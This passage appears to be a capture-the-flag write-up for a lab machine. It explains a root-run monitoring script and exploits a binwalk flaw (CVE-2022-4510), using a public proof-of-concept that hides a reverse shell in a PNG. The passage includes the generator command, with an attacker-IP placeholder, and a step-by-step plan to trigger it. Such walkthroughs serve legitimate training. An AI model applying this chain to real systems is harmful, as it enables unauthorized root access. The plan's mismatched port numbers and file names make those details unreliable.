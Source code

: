 ChatGPT is very useful in breaking down commands like these:

    This script appears to be a Bash script that monitors a specific directory (/var/www/pilgrimage.htb/shrunk/) for new file creations and takes certain actions based on the contents of those files. Let's break down what it does step by step:

    Shebang: The #!/bin/bash at the beginning of the script indicates that this is a Bash script and should be executed using the Bash shell.

    Blacklist: An array named blacklist is defined, containing two elements: "Executable script" and "Microsoft executable". These are likely keywords or phrases that the script will look for in the files created in the monitored directory.

    Inotifywait: The script uses the /usr/bin/inotifywait command to monitor the specified directory (/var/www/pilgrimage.htb/shrunk/) for events, specifically the "create" event, which occurs when a new file is created in that directory.

    While loop: The script enters a while loop that reads the output of inotifywait as it waits for file creation events. When a new file is created, the path to the created file is captured in the FILE variable.

    File name extraction: The script extracts the filename from the full path of the created file using a combination of commands. It uses tail to get the last part of the path and sed to extract the filename from the "CREATE" event message.

    Binwalk analysis: It then runs /usr/local/bin/binwalk -e "$filename" on the created file. binwalk is a tool for analyzing binary files. The -e flag specifies that the contents of the file should be extracted.

    Blacklist check: The script then iterates through the elements in the blacklist array and checks if the output of binwalk contains any of the banned keywords (e.g., "Executable script" or "Microsoft executable"). If a match is found, the script removes the file using /usr/bin/rm.

    Loop continues: The while loop continues to monitor the directory for new file creation events.

    In summary, this script is designed to monitor a directory for new file creations and perform a check using binwalk on the contents of these files. If the contents match any of the predefined banned keywords, the script deletes the file. This script is likely used for security or file content analysis to prevent specific types of files from being created in the specified directory.

The exploit lies in the use of `/binwalk` to extract the contents of a file. This means we can add code that gives us a root shell when binwalk opens it.

We will use this [PoC](https://github.com/adhikara13/CVE-2022-4510-WalkingPath) that hides a reverse shell command inside a `.png` file.

Run according to instructions and specify your IP and listener port.

    python exploit_generator.py reverse input.png [YOUR_IP] 9999

Our plan is:

1. Generate an `exploit.png` that contains hidden python code that tells the target to start a reverse shell with my listener on `9999`
2. Start a listener on `7777` on emily inside `/var/www/pilgrimage.htb/shrunk/`
3. Transfer the `exploit.png` over to emily.
4. In `emily`, trigger the `CREATE` event by explicitly `cp` the exploit.py into `/var/www/pilgrimage.htb/shrunk/`
5. `malwarescan.sh` will automatically `/binwalk -e` the `.png` and trigger the reverse shell
